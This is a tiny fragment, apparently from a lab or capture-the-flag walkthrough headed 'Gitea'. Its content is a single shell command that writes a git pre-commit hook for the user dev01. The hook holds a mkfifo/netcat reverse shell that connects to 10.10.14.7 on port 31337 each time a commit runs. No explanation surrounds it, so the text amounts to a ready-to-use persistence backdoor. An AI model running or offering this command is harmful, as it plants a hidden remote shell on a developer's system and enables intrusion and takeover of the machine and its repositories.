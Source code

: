 # Gitea

echo '#!/bin/sh' > /home/dev01/.git/hooks/pre-commit && chmod +x /home/dev01/.git/hooks/pre-commit && echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 31337 >/tmp/f' >> /home/dev01/.git/hooks/pre-commit